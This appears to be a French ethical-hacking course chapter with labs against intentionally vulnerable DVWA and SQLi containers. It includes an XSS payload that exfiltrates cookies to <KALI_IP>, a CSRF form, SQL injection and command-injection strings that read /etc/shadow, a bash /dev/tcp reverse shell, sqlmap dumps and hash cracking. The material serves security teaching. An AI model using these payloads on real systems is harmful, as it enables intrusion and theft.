



# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Mettre en place l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et naviguer dans sa matrice
- Distinguer les profils d'attaquants
- Cartographier les attaques (phishing, DDoS, SQLi, XSS) aux techniques ATT&CK
- Prendre en main nmap, Metasploit, Wireshark
- Exploiter les 4 failles web sur DVWA : Reflected XSS, Stored XSS, CSRF, SQLi, Command Injection

---

# Partie 1 — Mise en place de l'environnement (1h30)

## A.1 Vérification des outils Kali

```bash
python3 --version     # → Python 3.10+
docker --version      # → Docker 24+
nmap --version        # → Nmap 7.94
msfconsole --version  # → Metasploit 6.3
sqlmap --version      # → sqlmap 1.7
which nc              # → /usr/bin/nc
```

Si un outil manque :
```bash
sudo apt update && sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap netcat-openbsd curl
sudo usermod -aG docker $USER
# redémarrer la session
```

## A.2 Arborescence de travail

```bash
mkdir -p ~/cours-hacking/{jour-1,jour-2,jour-3,jour-4,jour-5,hors-serie}
mkdir -p ~/cours-hacking/jour-{1,2,3,4,5}/labs
cd ~/cours-hacking
git clone https://github.com/yugmerabtene/techniques-hacking-mdj.git repo
```

## A.3 Lancement des conteneurs

```bash
cd ~/cours-hacking/repo
docker compose up -d --build
```


## A.4 Validation de chaque vulnérabilité

```bash
# DVWA
curl -I http://localhost:8080/login.php
# → HTTP/1.1 200 OK
# Login : admin / password → DVWA Security → low

# SQLi App
curl "http://localhost:8083/?page=search&id=1"
# → Laptop Pro X
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep -o "Connecté"
# → Connecté en tant que admin

# vsftpd 2.3.4
echo "" | nc -w2 localhost 21
# → 220 (vsFTPd 2.3.4)

# Samba
nmap -sV -p 445 localhost | grep 445
# → 445/tcp open netbios-ssn Samba smbd 3.0.20

# Buffer overflow
nc -z localhost 9001 && echo "OK"

# WAF
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1 OR 1=1"
# → 403 (WAF bloque)

# Secure Linux
nc -z localhost 2222 && echo "SSH OK"

# Forensic victim
curl "http://localhost:8082/?cmd=id"
# → uid=33(www-data)

# Validation automatique
cd ~/cours-hacking/repo && bash tests/run_all.sh
```

---

# Partie 2 — Introduction au hacking éthique (4h30)

---

## Introduction

Toute démarche de sécurité commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il faut un **langage commun** pour décrire les comportements adverses. Ce langage, c'est **MITRE ATT&CK** — le standard adopté par les SOC, les CERT et les pentesters.

Dans ce chapitre, vous découvrirez la matrice ATT&CK (14 tactiques, 200+ techniques), mapperez les attaques classiques à leurs IDs, et exploiterez les 4 vulnérabilités web les plus répandues.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/)

---

## 1. MITRE ATT&CK — La matrice des TTPs

**Tactique** = l'objectif (pourquoi). **Technique** = la méthode (comment). **Procédure** = l'implémentation spécifique d'un groupe.



| Attaque | Technique ATT&CK | ID | Tactic |
|---|---|---|---|
| Phishing | Spearphishing Attachment | T1566.001 | TA0003 Initial Access |
| DDoS | Endpoint Denial of Service | T1499 | TA0014 Impact |
| SQL Injection | Exploit Public-Facing Application | T1190 | TA0003 Initial Access |
| XSS | Drive-by Compromise | T1189 | TA0003 Initial Access |
| CSRF | Exploitation for Client Execution | T1203 | TA0004 Execution |

---

## 2. Profils d'attaquants



---

## 3. Outils fondamentaux

### nmap → T1046 Network Service Scanning

```bash
nmap -sV <IP>              # Scan avec version
nmap -A <IP>               # OS + scripts + versions
nmap --script vuln <IP>    # Vulnérabilités connues
```

### Metasploit → TA0001-TA0006

```bash
msfconsole
search <exploit>
use <chemin>
set RHOSTS <IP>
exploit
```

### Wireshark → T1040 Network Sniffing

Filtres : `http`, `tcp.port == 80`, `ip.addr == <IP>`

---

## 4. Les 4 vulnérabilités web fondamentales

### XSS → T1189 Drive-by Compromise

**Contexte métier :** 65% des applications web ont eu au moins une XSS. Un attaquant vole le cookie de session d'un administrateur → accès complet au back-office.

**Fonctionnement :** L'application prend une entrée utilisateur (formulaire, URL) et l'affiche sans échapper les caractères HTML. Le navigateur interprète `<script>` comme du code exécutable.



```html
<script>alert('XSS')</script>
<script>new Image().src='http://<KALI_IP>:8000/?c='+document.cookie</script>
```

### CSRF → T1203 Exploitation for Client Execution

**Contexte métier :** L'attaquant force un utilisateur authentifié à exécuter une action (virement, changement de mot de passe) sans son consentement, simplement en visitant une page piégée.

```html
<form action="http://<CIBLE>/change_password.php" method="POST">
  <input name="new_password" value="hacked">
</form>
<script>document.forms[0].submit();</script>
```

### SQL Injection → T1190 Exploit Public-Facing Application

**Contexte métier :** Première cause de breach de données selon l'OWASP. Un attaquant extrait la base clients complète, la revend sur le dark web. Coût moyen : 4.5M$.

**Fonctionnement :** La requête SQL construite par concaténation de chaînes inclut l'entrée utilisateur. `SELECT * FROM users WHERE id='1' OR '1'='1'` retourne tout car `'1'='1'` est toujours vrai.

```sql
admin' OR '1'='1' --
' UNION SELECT username, password FROM users --
```

### Command Injection → T1059.004 Unix Shell

**Contexte métier :** 30% des applications qui exécutent des commandes système sont vulnérables. Un `ping` mal sécurisé donne un shell complet sur le serveur.

**Fonctionnement :** `system("ping " + $input)` exécute `ping 127.0.0.1; ls /etc/`. Le `;` termine la première commande et en lance une seconde.

```bash
; ls /etc/passwd
| whoami
&& cat /etc/shadow
```

---

## Lab 1.1 — Scan et découverte de DVWA

### 📋 Fiche

| Durée | Conteneur | Dossier | Outils |
|---|---|---|---|
| 30 min | dvwa (port 8080) | `~/cours-hacking/jour-1/labs/` | nmap, gobuster, curl |

### Contexte métier

Avant tout pentest, on scanne la cible pour cartographier sa surface d'attaque. Un scan nmap + une énumération web (gobuster) sont systématiquement demandés par le client dans le rapport.

### Étape 1 — Scan nmap

```bash
cd ~/cours-hacking/jour-1/labs
nmap -sV -p 8080 localhost | tee nmap_dvwa.txt
# PORT     STATE SERVICE VERSION
# 8080/tcp open  http    Apache httpd 2.4.X
```

### Étape 2 — Énumération gobuster

```bash
# Toujours dans ~/cours-hacking/jour-1/labs/
cd ~/cours-hacking/jour-1/labs
gobuster dir -u http://localhost:8080 \
  -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
# /login.php (Status: 200)
# /vulnerabilities (Status: 301)
# /config (Status: 301)
```

### Étape 3 — Connexion DVWA

```bash
# Vérifier le login (admin / password)
curl -s -c /tmp/dvwa_cookie.txt \
  -d "username=admin&password=password&Login=Login" \
  "http://localhost:8080/login.php" | grep -o "Welcome\|Login failed"
# → Welcome

# Firefox : http://localhost:8080 → DVWA Security → low
```

### Checkpoints
- [ ] nmap : port 8080 ouvert, Apache
- [ ] gobuster : /login.php, /vulnerabilities trouvés
- [ ] Connexion DVWA réussie

---

## Lab 1.2 — Exploitation XSS

### 📋 Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8080 | T1189 Drive-by Compromise |

### Contexte technique

Reflected XSS injecte du code dans l'URL, exécuté immédiatement. Stored XSS persiste en base de données. Dans un vrai pentest, on montre les deux car l'impact diffère : Reflected cible un utilisateur, Stored toutes les visites.

### Étape 1 — Reflected XSS

Dans DVWA → **XSS (Reflected)** → champ "What's your name?" :

```html
<script>alert('XSS fonctionnel')</script>
```
→ Popup JavaScript. La faille est confirmée.

### Étape 2 — Vol de cookie

**Terminal 1** — écouteur HTTP :
```bash
cd ~/cours-hacking/jour-1/labs
python3 -m http.server 8000
```

**Terminal 2** — payload dans DVWA (remplacer l'IP par `hostname -I`) :
```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

L'écouteur reçoit : `GET /?cookie=PHPSESSID=abc123...` → cookie volé.

Retournez dans le **Terminal 1** (écouteur HTTP) pour confirmer.

### Étape 3 — Stored XSS

DVWA → **XSS (Stored)** :
```
Name: Attaquant
Message: <script>alert('Stored XSS')</script>
```
→ Popup à chaque rafraîchissement. Stocké en base.

---

## Lab 1.3 — Injection SQL avec sqlmap

### 📋 Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8080 | T1190 Exploit Public-Facing App |

### Contexte technique

La requête `SELECT first_name, last_name FROM users WHERE user_id = '$id'` devient `WHERE user_id = '1' OR '1'='1' #'` → retourne tous les utilisateurs. sqlmap automatise l'extraction complète.

### Étape 1 — Test manuel

**Important :** remplacez `XXXX` par votre PHPSESSID. Pour l'obtenir : Firefox → DVWA → F12 → Storage → Cookies → copier la valeur de `PHPSESSID`.

```bash
curl -s -b "PHPSESSID=XXXX;security=low" \
  "http://localhost:8080/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
  | grep -c "First name"
# → 5 (5 utilisateurs affichés au lieu d'1)
```

### Étape 2 — sqlmap : dumper les utilisateurs

```bash
cd ~/cours-hacking/jour-1/labs
# Remplacer XXXX par le PHPSESSID (Firefox → F12 → Storage → Cookies)

sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa -T users -C user,password --dump --batch
```

Sortie attendue :
```
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

### Checkpoints
- [ ] SQLi manuelle : 5 utilisateurs affichés
- [ ] sqlmap : 5 utilisateurs extraits avec hashs MD5

---

## Lab 1.4 — Command Injection + Reverse Shell

### 📋 Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8080 | T1059.004 Unix Shell |

### Contexte technique

La fonction `shell_exec("ping -c 4 " . $target)` exécute tout ce qui suit `ping`. Avec `;`, on chaîne une deuxième commande. Avec un reverse shell, on obtient un shell interactif complet — plus puissant qu'une simple commande.

### Étape 1 — Command injection basique

DVWA → **Command Injection** :
```
127.0.0.1; whoami     → www-data
127.0.0.1; ls /etc/   → contenu de /etc/
127.0.0.1; cat /etc/passwd → utilisateurs
```

### Étape 2 — Reverse shell

**Terminal 1** — écouteur :
```bash
nc -lvnp 4444
```

**Terminal 2** — via DVWA (remplacer `<KALI_IP>` par l'IP de votre Kali) :
```bash
# Pour trouver la bonne IP (le conteneur doit pouvoir joindre Kali) :
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1

# Payload dans DVWA Command Injection :
127.0.0.1; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'
```

**Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante apparaît, suivie d'un prompt shell. Tapez `whoami` → `www-data`.

---

## Lab 1.5 — SQLi avancée : Trouver, Exploiter, Craquer

### 📋 Fiche

| Durée | Conteneur | Dossier | Techniques |
|---|---|---|---|
| 1h | sqli-app (port 8083) | `~/cours-hacking/jour-1/labs/` | T1190 + T1110.001 |

### Contexte métier

Dans un vrai pentest, 80% du temps est consacré à **trouver** l'injection avant de l'exploiter. Une fois les données exfiltrées, il faut **craquer les hashs** pour prouver l'impact au client. Ce lab vous fait faire les 3 étapes : trouver → exploiter → craquer.

### Contexte technique — Les 3 types d'injection

L'application `sqli-app` (http://localhost:8083) expose 3 points d'injection différents :

| Point d'injection | Type SQL | Difficile à trouver ? | Payload test |
|---|---|---|---|
| `?id=` (paramètre numérique) | Numeric | Facile | `1 OR 1=1` |
| `username` (champ login) | String (single quote) | Moyen | `admin' --` |
| `?filter=` (LIKE) | String (% wildcard) | Difficile | `%' UNION SELECT...` |

**Pourquoi SQLite ?** Les principes d'injection SQL sont identiques quel que soit le SGBD. Seule la syntaxe des commandes système change (version(), @@version, sqlite_version()). SQLite permet un conteneur léger sans MySQL séparé.

### Prérequis

```bash
docker compose up -d sqli-app
curl -I http://localhost:8083/
mkdir -p ~/cours-hacking/jour-1/labs && cd ~/cours-hacking/jour-1/labs
```

### Étape 1 — Trouver les injections manuellement

**Point 1 : Paramètre `?id=` (numeric)**

```bash
# Normal
curl -s "http://localhost:8083/?page=search&id=1" | grep -o "Laptop\|Monitor\|Keyboard"
# → Laptop Pro X

# Test SQLi : toujours vrai
curl -s "http://localhost:8083/?page=search&id=1%20OR%201=1" | grep -c "<tr>"
# → 6 (affiche tous les produits au lieu d'un seul)

# Test SQLi : toujours faux
curl -s "http://localhost:8083/?page=search&id=1%20AND%201=2" | grep -o "Aucun"
# → Aucun produit trouvé
```

**Point 2 : Formulaire de login (string injection)**

```bash
# Normal → échoue
curl -s -d "page=login&username=admin&password=wrong" "http://localhost:8083/" | grep "Identifiants"
# → ❌ Identifiants incorrects

# SQLi : bypass d'authentification
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep "Connecté"
# → ✅ Connecté en tant que admin

# SQLi : toujours vrai
curl -s -d "page=login&username='%20OR%20'1'='1'%20--&password=x" "http://localhost:8083/" | grep -c "Connecté"
# → 6 (tous les utilisateurs sont "connectés")
```

**Point 3 : Filtre `?filter=` (LIKE injection)**

```bash
# Normal
curl -s "http://localhost:8083/?page=users&filter=john" | grep "<td>" | wc -l
# → 4 (4 cellules = 1 ligne utilisateur)

# SQLi : UNION pour extraire d'autres tables
curl -s "http://localhost:8083/?page=users&filter=%25'%20UNION%20SELECT%201,username,password,email%20FROM%20users%20--" | grep "<td>"
```

**Checkpoint A :** Les 3 injections fonctionnent. L'application est vulnérable.

### Étape 2 — Exploitation automatisée avec sqlmap

```bash
cd ~/cours-hacking/jour-1/labs

# Lister les tables
sqlmap -u "http://localhost:8083/?page=search&id=1" --tables --batch 2>&1 | tee sqli_tables.txt
```

Sortie attendue :

```
[2 tables]
+----------+
| products |
| users    |
+----------+
```

```bash
# Dumper les colonnes de la table users
sqlmap -u "http://localhost:8083/?page=search&id=1" -T users --columns --batch
```

```
[5 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| email     | TEXT     |
| id        | INTEGER  |
| password  | TEXT     |
| role      | TEXT     |
| username  | TEXT     |
+-----------+----------+
```

```bash
# Extraire tous les utilisateurs avec leurs hashs
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T users -C username,password,email,role --dump --batch 2>&1 | tee sqli_dump.txt
```

Sortie attendue :

```
+------------+----------------------------------+---------------------+------------+
| username   | password                         | email               | role       |
+------------+----------------------------------+---------------------+------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@shop.local    | admin      |
| john_doe   | 482c811da5d5b4bc6d497ffa98491e38 | john@shop.local     | user       |
| jane_dev   | e99a18c428cb38d5f260853678922e03 | jane@shop.local     | dev        |
| supervisor | 0d107d09f5bbe40cade3de5c71e9e9b7 | super@shop.local    | supervisor |
| guest      | 098f6bcd4621d373cade4e832627b4f6 | guest@shop.local    | user       |
| flag_user  | 21232f297a57a5a743894a0e4a801fc3 | flag@secret.local   | admin      |
+------------+----------------------------------+---------------------+------------+
```

**Checkpoint B :** 6 utilisateurs extraits avec leurs hashs MD5.

### Étape 3 — Craquer les hashs

#### Méthode 1 : john the ripper

```bash
cd ~/cours-hacking/jour-1/labs

# Préparer le fichier de hashs
cat > hashes.txt << 'EOF'
admin:5f4dcc3b5aa765d61d8327deb882cf99
john_doe:482c811da5d5b4bc6d497ffa98491e38
jane_dev:e99a18c428cb38d5f260853678922e03
supervisor:0d107d09f5bbe40cade3de5c71e9e9b7
guest:098f6bcd4621d373cade4e832627b4f6
flag_user:21232f297a57a5a743894a0e4a801fc3
EOF

# Crack avec john (format raw-md5)
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 2>/dev/null
john --show --format=raw-md5 hashes.txt
```

Sortie attendue :

```
admin:password
john_doe:password123
jane_dev:abc123
supervisor:letmein
guest:test
flag_user:admin
```

#### Méthode 2 : recherche en ligne (optionnelle)

```bash
# CrackStation.net ou md5decrypt.net
# 5f4dcc3b5aa765d61d8327deb882cf99 → password
# e99a18c428cb38d5f260853678922e03 → abc123
# 0d107d09f5bbe40cade3de5c71e9e9b7 → letmein
```

#### Méthode 3 : hashcat (si GPU disponible)

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

**Checkpoint C :** Au moins 3 mots de passe craqués. Le flag_user utilise `admin` comme mot de passe — une erreur classique.

### Étape 4 — Extraire le flag caché

```bash
cd ~/cours-hacking/jour-1/labs

# Dans la table products, un champ secret_flag existe
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T products -C name,secret_flag --dump --batch
```

```
+---------------------+--------------------------------+
| name                | secret_flag                    |
+---------------------+--------------------------------+
| Laptop Pro X        | FLAG{sql_injection_master}     |
| Smart Monitor 27"   | NULL                           |
| ...                 | NULL                           |
+---------------------+--------------------------------+
```

### Checkpoints

- [ ] Injection trouvée sur les 3 points d'entrée
- [ ] sqlmap a extrait 6 utilisateurs avec hashs
- [ ] john/hashcat a craqué au moins 3 mots de passe
- [ ] Flag `FLAG{sql_injection_master}` trouvé

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator

**Énoncé :** Créez une couche avec T1046, T1189, T1190, T1059.004, T1203. Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
1. https://mitre-attack.github.io/attack-navigator/ → New Layer → Enterprise v15
2. Ajouter les 5 techniques, colorer (rouge = testé)
3. Download as JSON
</details>

### Exercice 2 : Mapping WannaCry

**Énoncé :** WannaCry (2017) utilisait EternalBlue. Quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue → T1210 (TA0008), DoublePulsar → T1543.003 (TA0003), Chiffrement → T1486 (TA0014)
</details>

### Exercice 3 : Mini-rapport DVWA

**Énoncé :** Rédigez 4 fiches (une par vulnérabilité) avec type, ATT&CK, impact, remédiation.

<details><summary><strong>Solution</strong></summary>
1. XSS → T1189 → htmlspecialchars() + CSP
2. CSRF → T1203 → Token anti-CSRF
3. SQLi → T1190 → Requêtes préparées PDO
4. CMDi → T1059.004 → escapeshellcmd()
</details>

---

## Points clés à retenir

- **MITRE ATT&CK** : chaque attaque → ID Txxxx (T1046, T1189, T1190, T1059.004)
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- **DVWA** expose les 4 familles de vulnérabilités web
- **XSS vole des sessions**, **SQLi vole des données**, **CMDi donne un shell**
- **Reverse shell** : toujours vérifier que la cible peut joindre votre IP Kali (docker0 = 172.17.0.1)

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [DVWA GitHub](https://github.com/digininja/DVWA)

---

*Chapitre suivant : [Jour 2 — Tests de pénétration](./JOUR-02-tests-penetration-exploitation.md)*
*Hors-Série : [KillChainAgent](./HORS-SERIE-AGENTIC.md)*
